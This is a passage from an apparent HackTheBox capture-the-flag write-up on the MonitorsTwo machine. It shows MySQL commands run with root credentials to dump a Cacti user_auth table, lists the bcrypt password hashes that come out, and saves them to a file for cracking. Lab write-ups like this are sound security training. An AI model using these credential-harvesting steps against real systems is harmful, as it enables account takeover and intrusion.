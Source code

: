 
Let's list the tables.

    $ mysql -h db -u root -p cacti -e "show tables"
    Enter password: root
    Tables_in_cacti
    aggregate_graph_templates
    [...]
    sessions
    settings
    settings_tree
    settings_user
    settings_user_group
    sites
    [...]
    user_auth
    user_auth_cache
    user_auth_group
    user_auth_group_members
    user_auth_group_perms
    user_auth_group_realm
    user_auth_perms
    user_auth_realm
    user_domains
    user_domains_ldap
    user_log
    [...]
    

And the contents of some interesting tables.

    $ mysql -h db -u root -p cacti -e "select * from user_auth;"
    Enter password: root
    id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs    policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
    1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       11       on      -1      -1      -1              0       0       663348655
    3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              00       0
    4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       11       on      -1      -1              on      0       0       2135691668
    

Well, the _admin user_ changed his _password_ and a new user appeared in the list... we have a couple of interesting passwords to try and **crack**.

Save the _password_ into a file.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/crk]
    └─$ cat pwd.hash 
    admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
    marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
    